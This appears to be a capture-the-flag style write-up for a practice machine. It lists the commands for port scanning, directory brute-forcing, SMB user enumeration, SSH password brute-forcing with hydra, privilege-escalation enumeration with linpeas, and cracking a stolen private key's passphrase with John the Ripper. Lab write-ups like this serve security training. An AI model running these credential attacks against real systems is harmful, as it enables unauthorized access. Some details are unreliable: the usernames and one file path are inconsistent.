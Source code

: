 # Basic Pentesting

> This is a machine that allows you to practise web app hacking and privilege escalation.

<br>

### Process:
1. Scan the machine:
    - basic port scan: `nmap -T4 10.10.29.143`
    - services running = **SSH (22)**, **HTTP (80)**, **netbios-ssn (139)**, **microsoft-ds (445)**, **ajp13(8009)**, **http-proxy (8080)**
    - and no limit on password logins for SSH
2. "Find hidden directory on web server"
    - use GoBuster: `gobuster dir -u http://10.10.29.143 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
      - hidden directory = **development**
3. brute force SSH credentials
   - find possible SSH usernames:
     - enumerate SMB for possible usernames:
       - `enum4linux 10.10.29.143`
       - found: **kay** and **jan** (jay is a developer on the server logs with a "weak password")
   - try to brute force jay's SSH password:
     - `hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.29.143 -t 4`
     - password = **armando**
   - use **SSH** to access server:
     - `ssh armando@10.10.29.143` -> [password]
4. enumerate machine to esclate privileges:
   - can't privilege escalate with sudo (i.e. `sudo -l`)
   - use privilege escalation tool "linPeas", transfer onto machine using scp (because we have ssh credentials), and execute
     - attack box: `scp linpeas.sh jan@10.10.29.143:/dev/shm`
     - target box: `chmod +x /dev/shm/linpeas.sh` -> `./dev/shm/linpeas.sh`
   - found kay's private SSH key
     - copy it across to attack machine and try to login -> need a passphrase to unlock 
     - use ssh2john.py to convert id_rsa file to a hash for John the Ripper to crack:
       - `/usr/share/john/ssh2john.py id_rsa > hash.txt`
     - crack hash with john:
       - `john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`
     - password for private ssh key = **beeswax**
5. login as kay
   - ssh into machine as kay using ssh key and password for ssh key
     - `ssh -i id_rsa kay@10.10.29.143` -> [ssh_key_password]
   - get the final passphrase from the "pass.bak" file:
     - `cat pass.bak`
     - passphrase = **heresareallystrongpasswordthatfollowsthepasswordpolicy$$**